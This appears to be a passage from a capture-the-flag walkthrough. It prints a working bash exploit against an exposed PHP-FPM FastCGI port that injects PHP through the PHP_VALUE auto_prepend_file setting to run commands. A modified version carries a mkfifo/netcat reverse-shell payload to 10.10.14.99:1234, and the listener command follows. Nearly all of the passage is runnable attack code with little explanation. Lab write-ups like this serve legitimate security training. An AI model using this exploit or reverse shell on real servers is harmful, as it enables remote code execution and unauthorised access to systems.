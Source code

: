 ~~~
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->';"
FILENAMES="/var/www/public/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
~~~

modified payload:

~~~
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.99 1234 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done

~~~

~~~
nc -lvnp 1234
~~~

Yes got ..!! Victor 

we can get the user flag now..!!

